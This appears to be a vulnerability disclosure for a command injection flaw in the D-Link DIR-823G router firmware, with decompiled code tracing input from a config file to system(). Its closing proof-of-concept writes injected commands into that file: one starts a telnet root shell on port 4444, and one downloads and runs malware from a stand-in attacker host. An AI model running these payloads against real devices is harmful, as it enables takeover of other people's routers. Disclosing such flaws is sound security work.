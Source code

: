 # Command Injection Vulnerability in `/var/system/linux_vlan_reinit`

1. Vulnerability Overview

| **Field**            | **Details**                                                  |
| -------------------- | ------------------------------------------------------------ |
| Affected Product     | D-Link DIR-823G Router                                       |
| Firmware Version     | **DIR823G_V1.0.2B05_20181207.bin** (other versions require verification) |
| Vulnerability Type   | **Command Injection**                                        |
| Vulnerable Component | `timelycheck` and `sysconf` binaries                         |
| Prerequisites        | Requires control over `/var/system/linux_vlan_reinit` content or filesystem write permissions (local or remote) |

2. Exploitation Path

```c
// timelycheck / sysconf
int sub_40A240()
{
  ...
  v0 = sub_402864("/var/system/linux_vlan_reinit");
  v1 = 0;
  if ( v0 )
  {
    v2 = fopen("/var/system/linux_vlan_reinit", "r");
    v1 = -1;
    if ( v2 )
    {
      memset(v9, 0, 256);
      fgets(v9, 256, v2);
      v3 = (const char *)strtok_r(v9, ":", &v8);
      if ( !v3 )
        goto LABEL_11;
      while ( !memcmp(v3, "eth", 3) || !memcmp(v3, "wlan", 4) )
      {
        sub_408FC8("ifconfig %s down", v3);
        sub_408FC8("vconfig rem %s", v3);
        ...
}

// timelycheck / sysconf
int sub_408FC8(const char *a1, ...)
{
  int result; // $v0
  _BYTE v2[260]; // [sp+1Ch] [-104h] BYREF
  va_list va; // [sp+12Ch] [+Ch] BYREF

  va_start(va, a1);
  result = vsnprintf(v2, 256, a1, (int *)va);
  if ( result >= 0 )
  {
    system(v2);
    return 0;
  }
  return result;
}
```

3. **Vulnerable Binaries:** `timelycheck` and `sysconf`, This vulnerability exists independently in both binaries and does not cross binary boundaries.

4. 0-Day Command Injection Exploitation Path:

   - Line 14: `fgets(v9, 256, v2)` reads content from `/var/system/linux_vlan_reinit`. The code only checks the prefix using `memcmp(v3, "eth", 3)` or `memcmp(v3, "wlan", 4)`, without performing any escaping or filtering. The input is concatenated at line 20 via `sub_408FC8("ifconfig %s down", v3)` and ultimately passed to line 36: `system(v2)`, leading to a command injection vulnerability.

   - Line 14: `fgets(v9, 256, v2)` reads content from `/var/system/linux_vlan_reinit`. The code only checks the prefix using `memcmp(v3, "eth", 3)` or `memcmp(v3, "wlan", 4)`, without performing any escaping or filtering. The input is concatenated at line 21 via `sub_408FC8("vconfig rem %s", v3)` and ultimately passed to line 36: `system(v2)`, leading to a command injection vulnerability.

5. Proof of Concept (PoC) for Reproducing the Vulnerability:

```bash
# Create a malicious configuration file
echo "eth0; telnetd -l /bin/sh -p 4444; reboot" > /var/system/linux_vlan_reinit
echo "wlan0; wget http://attacker.com/malware -O /tmp/exp; sh /tmp/exp" >> /var/system/linux_vlan_reinit
```